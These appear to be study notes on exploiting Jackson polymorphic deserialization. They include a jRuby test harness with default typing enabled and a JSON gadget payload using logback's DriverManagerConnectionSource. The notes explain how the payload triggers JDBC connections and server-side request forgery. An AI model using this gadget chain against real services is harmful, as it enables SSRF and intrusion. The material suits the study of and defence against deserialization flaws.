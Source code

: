 
prepared a **wrapper** to load `arbitrary polymorphic classes` specified by an attacker. 
- used jRuby, a ruby implementation running on top of the `Java Virtual Machine (JVM)`. 
- load and instantiate Java classes.


use this setup to load Java classes easily in a given directory and prepare the Jackson environment to meet the first two requirements (1,2) listed above

```ruby
# loads all of the classes contained Java Archives(JAR) in the “classpath” subdirectory
require 'java'
Dir["./classpath/*.jar"].each do |f| 
    require f
end

# configures Jackson in order to meet requirements 
java_import 'com.fasterxml.jackson.databind.ObjectMapper'
java_import 'com.fasterxml.jackson.databind.SerializationFeature'

content = ARGV[0]

puts "Mapping"
mapper = ObjectMapper.new
mapper.enableDefaultTyping()
mapper.configure(SerializationFeature::FAIL_ON_EMPTY_BEANS, false);

# deserializes and serializes a polymorphic Jackson object passed to jRuby as JSON
puts "Serializing" 
# Jackson will recursively call all of the setters with the key contained inside the subobject. 
# the setUrl(String url) is called with arguments by the Jackson reflection library.
obj = mapper.readValue(content, java.lang.Object.java_class) # invokes all the setters
puts "objectified"
# the full object is serialized into a JSON object again.
puts "stringified: " + mapper.writeValueAsString(obj)
```

---

## 0x03 Gadget


> SSRF攻击中并不需要使用h2库，因为大多数Java应用至少会加载一个JDBC驱动。
> JDBC Drivers are classes that, when a JDBC url is passed in, are automatically instantiated and the full URL is passed to them as an argument.

call the previous script with the aforementioned classpath.

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource\", {"url":"jdbc:h2:mem:"}]"
```

1. Jackson will recursively 递归地 call all of the setters with the key contained inside the subobject. the `setUrl(String url)` is called with arguments by the **Jackson reflection library**.
2. the full object is serialized into a JSON object again.
3. At this point all the fields are serialized directly, if no getter is defined, or through an explicit getter.
4. When the `getConnection` is called, an `in memory database` is instantiated. 
   1. Since the application is short lived, won’t see any meaningful effect from the attacker’s perspective. 
   2. to do something meaningful, create a connection to a remote database. 
   3. If the target application is deployed as a remote service, an attacker can generate a Server Side Request Forgery (SSRF). 
